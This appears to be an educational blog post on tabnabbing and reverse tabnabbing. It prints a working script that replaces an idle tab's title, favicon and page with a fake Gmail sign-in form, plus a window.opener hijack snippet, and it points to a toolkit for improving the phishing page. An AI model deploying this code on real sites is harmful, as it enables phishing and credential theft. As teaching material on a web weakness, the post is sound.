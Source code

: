 ```yaml
---
title: Tabnabbing & Reverse Tabnabbing
date: '2022-12-23'
tags: ['web', 'security', 'software']
draft: false
summary: Tabnabbing, with its reverse variant, is an exploit enabling malicious actors to replace one of your browser's opened window to a site of their choosing.
---
```


# Introduction

When working with links and windows on the web, there are manly complex things to consider. Tabnabbing and reverse tabnabbing however, don't require complex factors in your code, and are both easy to pull off and defend against. These attacks mainly utilize the user's attention being somewhere else. While the user is occupied with something else, the tab is either replaced or changed in a way to permit a phishing attack.

# Tabnabbing

First, let's talk about the simple version: tabnabbing. The term was coined in [this article](http://www.icir.org/vern/cs161/demos/tabnabbing/tabnab.html) by Aza Raskin and the steps as explained by them are as follows:

1. A user navigates to your normal looking site.
2. You detect when the page has lost its focus and hasn’t been interacted with for a while.
3. You replace the favicon with the Gmail favicon, the title with “Gmail: Email from Google”, and the page with a Gmail login look-a-like. This can all be done with just a little bit of Javascript that takes place instantly.
4. As the user scans their many open tabs, the favicon and title act as a strong visual cue—memory is malleable and moldable and the user will most likely simply think they left a Gmail tab open. When they click back to the fake Gmail tab, they’ll see the standard Gmail login page, assume they’ve been logged out, and provide their credentials to log in. The attack preys on the perceived immutability of tabs.
5. After the user has entered their login information and you’ve sent it back to your server, you redirect them to Gmail. Because they were never logged out in the first place, it will appear as if the login was successful.

As Raskin notes in their article, the phishing content can be customized for each user in a spear phishing attack. The attack is very effective when posing as bank websites as a critical website warning the user that their login has timed out will not seem suspicious to the user. A user's company, password manager or even government login could be compromised if the victim is not paying attention.

Here's the attack script as seen on [this site's blog page](tabnabbing.vercel.app/blog) mostly adapted from [this gist](https://gist.github.com/cabe56/96b387a7f901f0219c8c)

<details>
<summary>Click to expand</summary>
```javascript
<script id="tabnabbing-example" type="application/javascript">
  {typeof window !== 'undefined' &&
    (function () {
      var TIMER = null
      var HAS_SWITCHED = false

      // Events
      window.onblur = function () {
        TIMER = setTimeout(changeItUp, 3500)
      }

      window.onfocus = function () {
        if (TIMER) clearTimeout(TIMER)
      }

      // Utils
      function setTitle(text) {
        document.title = text
      }

      // This favicon object rewritten from:
      // Favicon.js - Change favicon dynamically [http://ajaxify.com/run/favicon].
      // Copyright (c) 2008 Michael Mahemoff. Icon updates only work in Firefox and Opera.

      const favicon = {
        docHead: document.getElementsByTagName('head')[0],
        set: function (url) {
          this.addLink(url)
        },

        addLink: function (iconURL) {
          var link = document.createElement('link')
          link.type = 'image/x-icon'
          link.rel = 'shortcut icon'
          link.href = iconURL
          this.removeLinkIfExists()
          this.docHead.appendChild(link)
        },

        removeLinkIfExists: function () {
          var links = this.docHead.getElementsByTagName('link')
          for (var i = 0; i < links.length; i++) {
            var link = links[i]
            if (link.type == 'image/x-icon' && link.rel == 'shortcut icon') {
              this.docHead.removeChild(link)
              return // Assuming only one match at most.
            }
          }
        },

        get: function () {
          var links = this.docHead.getElementsByTagName('link')
          for (var i = 0; i < links.length; i++) {
            var link = links[i]
            if (link.type == 'image/x-icon' && link.rel == 'shortcut icon') {
              return link.href
            }
          }
        },
      }

      function createShield() {
        var div = document.createElement('div')
        div.style.position = 'fixed'
        div.style.top = 0
        div.style.left = 0
        div.style.backgroundColor = 'white'
        div.style.width = '100%'
        div.style.height = '100%'
        div.style.textAlign = 'center'
        document.body.style.overflow = 'hidden'

        // var img = document.createElement('img')
        // img.style.paddingTop = '15px'
        // img.src = 'http://img.skitch.com/20100524-b639xgwegpdej3cepch2387ene.png'

        var oldTitle = document.title
        var oldFavicon = favicon.get() || '/favicon.ico'

        div.innerHTML = `<body>
              <div class="box">
                      <h2>Sign in</h2>
                      <p>Use your Google Account</p>
                      <form onsubmit="alert('You got tabnabbed! I hope you didnt enter your password!')">
                        <div class="inputBox">
                          <input type="email" name="email" required onkeyup="this.setAttribute('value', this.value);"  value="">
                          <label>Username</label>
                        </div>
                        <div class="inputBox">
                              <input type="text" name="text" required onkeyup="this.setAttribute('value', this.value);" value="">
                              <label>Password</label>
                            </div>
                        <input type="submit" name="sign-in" value="Sign In">
                      </form>
                    </div>
              </body>`
        //TODO: Afterwards actually route the page to mail.google.com to make sure the victim doesn't notice we tabnabbed them

        // div.appendChild(img)
        document.body.appendChild(div)
      }
      function changeItUp() {
        if (HAS_SWITCHED == false) {
          createShield('https://mail.google.com')
          setTitle('Gmail: Email from Google')
          favicon.set('https://mail.google.com/favicon.ico')
          HAS_SWITCHED = true
        }
      }
    })()}

</script>
```
</details>

# Reverse Tabnabbing

This is an attack where the victim clicks on an unsafely routed link, and when they are spending time on the newly opened page, the original page is replaced with malicious content. The original site containing the unsafe link can be completely oblivious to these events, it only serves to be replaced once the user has clicked the unsafe link.

Explanation given by [OWASP](https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html#tabnabbing) is as follows:

The attack is typically possible when the source site uses a target instruction in a html link to specify a target loading location that do not replace the current location and then let the current window/tab available and does not include any of the preventative measures detailed below.

The attack is also possible for link opened via the window.open javascript function.

## Examples

Vulnerable page([landing page of this site](tabnabbing.vercel.app)):

```jsx
<button
  onClick={() => {
    typeof window !== 'undefined' && window.open('https://tabnabbing.vercel.app/blog')
  }}
>
  Check out our blog!
</button>
```

Malicious site that is linked to([the blog page of this site](tabnabbing.vercel.app/blog)):

```html
<script id="reverse-tabnabbing-example" type="application/javascript">
  {
    typeof window !== 'undefined' &&
      (function () {
        if (window.opener) {
          window.opener.location = 'https://yildiz.edu.tr'
        }
      })()
  }
</script>
```

# Try it out

This blog contains code to enable tabnabbing and reverse tabnabbing attacks for educational purposes.
To get tabnabbed, visit the [projects](tabnabbing.vercel.app/projects) page and without leaving the page, either click on a project(which will open an external link in another tab) or just click away to another tab for a few seconds. When you look through your tabs, you might see a new fake gmail tab, with a fake gmail login page that contains a half-hearted attempt at imitating the real page's CSS. The phishing login can be improved by using a tool such as [SET](https://github.com/trustedsec/social-engineer-toolkit), this implementation is just for demonstration purposes.
If you would like to try out the reverse tabnabbing method, head to [the landing page of this site](tabnabbing.vercel.app) and click on the "announcement". When the new window is opened, you'll see the previous window changes to an unrelated site. This could be any site the attacker wants you to see, and if you're not paying attention it provides the attacker with an attack vector as big as their imagination.
Both attacks work on all major browsers, as long as the website contains the vulnerabilities described in the article.

# Solutions

The best method to ensure credentials safety on the web is to always use a password manager. There are many free and/or open source tools available, I personally use [](Bitwarden). There are credentials managers built into all major browsers that mostly negate these attacks and many more, because even if the user doesn't recognize that the login form they are about to fill is fake, the password manager will know, because the URL doesn't match the already-saved legit URL.

### Sources

- https://owasp.org/www-community/attacks/Reverse_Tabnabbing

- https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html#tabnabbing

- http://www.icir.org/vern/cs161/demos/tabnabbing/tabnab.html

- https://gist.github.com/cabe56/96b387a7f901f0219c8c

- https://github.com/EdwinOtten/reverse-tabnabbing-demo/

- https://santexgroup.com/blog/what-is-reverse-tabnabbing-and-why-is-it-important-to-be-aware-of/

- https://github.com/trustedsec/social-engineer-toolkit

- http://danielstjules.github.io/blankshield/

---
